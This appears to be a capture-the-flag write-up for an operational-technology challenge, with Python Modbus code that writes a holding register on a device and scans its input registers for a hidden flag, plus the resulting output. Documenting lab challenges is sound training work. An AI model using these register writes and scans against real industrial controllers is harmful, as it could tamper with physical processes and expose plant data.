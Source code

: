 Now, we just need to do what we were told.
First edit the holding register of slave 105 with value 0xff.

```python
  try:
        print(f'Writing holding register at slave Id={slave_id}...')
        rr = client.write_register(address=0x10, value=0xff, slave=slave_id)
```

Then, read input registers to get some secret info. 
We don't know at what address we'll have info, so we read all adresses, by chunks of 125 and print when there's some info in them.

```python
address = 0
increment = 125
while address < 1000:
  try:
    print(f'Reading input registers address={address} for slave={slave_id}...')
    rr = client.read_input_registers(address=address, count=increment, slave=slave_id)
  except ModbusException as exc:
    ...
  if rr.isError():
    # handle error
  else:
    # Read info
    for offset, value in enumerate(rr.registers):
      if value != 0:
        print(f"Address 0x{(address + offset):02X}: {value} (Decimal) / 0x{value:02X} (Hex)")
  # loop
  address = address + increment
```

We get the following output:

```
[+] Connected at 163.172.68.42:10016
Writing holding register at slave Id=105...
[+] Write with success. rr=WriteSingleRegisterResponse(dev_id=105, transaction_id=1, address=16, count=0, bits=[], registers=[255], status=1)
Reading input registers address=0 for slave=105...
Address 0x00: 81 (Decimal) / 0x51 (Hex)
Address 0x01: 50 (Decimal) / 0x32 (Hex)
Address 0x02: 57 (Decimal) / 0x39 (Hex)
Address 0x03: 117 (Decimal) / 0x75 (Hex)
Address 0x04: 90 (Decimal) / 0x5A (Hex)
Address 0x05: 51 (Decimal) / 0x33 (Hex)
Address 0x06: 74 (Decimal) / 0x4A (Hex)
```

I provide the hexadecimal data to Claude AI, and tell it it's very probably a string, character by character.
We get a Base64 encoded string, and decode it to get the flag.

![](/images/xmas2024-ot.png)


 [SANTA]: Oh, I forgot to tell you, you will only be able to unwrap it on the 25th, come back to me on that date to get the key!
 [SANTA]: While I'm at it, do you wish to wrap a present for someone? (Y/N)